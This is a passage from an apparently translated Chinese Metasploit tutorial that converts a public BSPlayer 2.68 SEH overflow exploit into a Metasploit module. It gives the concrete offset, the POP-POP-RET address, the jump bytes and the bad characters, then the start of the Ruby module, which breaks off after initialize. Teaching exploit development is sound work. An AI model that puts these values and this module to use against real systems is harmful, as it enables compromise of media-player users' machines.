 
这种利用方式很简单。然而，该漏洞的作者使用了向后跳转技术来查找有效负载交付的外壳代码。该技术用于对抗空间限制。这里需要注意的另一件事是，由于漏洞的性质，作者已两次发送恶意缓冲区以执行有效负载。让我们在下一节中尝试构建一个表，其中包含将此漏洞转换为 Metasploit 兼容模块所需的所有数据。

# 收集精华

让我们看下表，其中突出显示了所有必要的值及其用法：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2048` |
| 2. | 内存中包含 POP-POP-RETN 系列指令/P-P-R 地址的已知位置 | `0x0000583b` |
| 3. | 向后跳转/跳远以查找外壳代码 | `\xe9\x85\xe9\xff\xff` |
| 4. | 短跳转/指向下一个 SEH 帧的指针 | `\xeb\xf9\x90\x90` |

我们现在已经具备了为 BSplayer 2.68 应用构建 Metasploit 模块的所有基本要素。我们可以看到，作者将外壳代码精确地放在了`2048`NOPs 之后。但是，这并不意味着实际偏移值为`2048`。该漏洞的作者已将其置于 SEH 覆盖之前，因为可能没有空间用于外壳代码。但是，我们将以该值作为偏移量，因为我们将遵循原始利用的确切过程。此外，`\xcc`是一个断点操作码，但在这次攻击中，它被用作填充。由于存在空间限制，`jmplong`变量将向后跳转存储到外壳代码。`nseh`变量存储下一帧的地址，这只是一个短跳转，正如我们在上一章中讨论的那样。`seh`变量存储`P/P/R`指令序列的地址。

这里需要注意的一点是，在这个场景中，我们需要目标连接到我们的攻击服务器，而不是试图到达目标机器。因此，我们的攻击服务器应始终侦听传入的连接，并根据请求发送恶意内容。

# 生成 Metasploit 模块

让我们从 Metasploit 中的漏洞编码部分开始：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::TcpServer 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'           => "BsPlayer 2.68 SEH Overflow Exploit", 
      'Description'    => %q{ 
        Here's an example of Server Based Exploit 
      }, 
      'Author'         => [ 'Nipun Jaswal' ], 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Generic', {'Ret' => 0x0000583b, 'Offset' => 2048} ], 
        ], 
      'Payload'  =>  
       { 
       'BadChars' => "\x00\x0a\x20\x0d" 
       }, 
      'DisclosureDate' => "May 19 2016", 
      'DefaultTarget'  => 0)) 
  end 
```
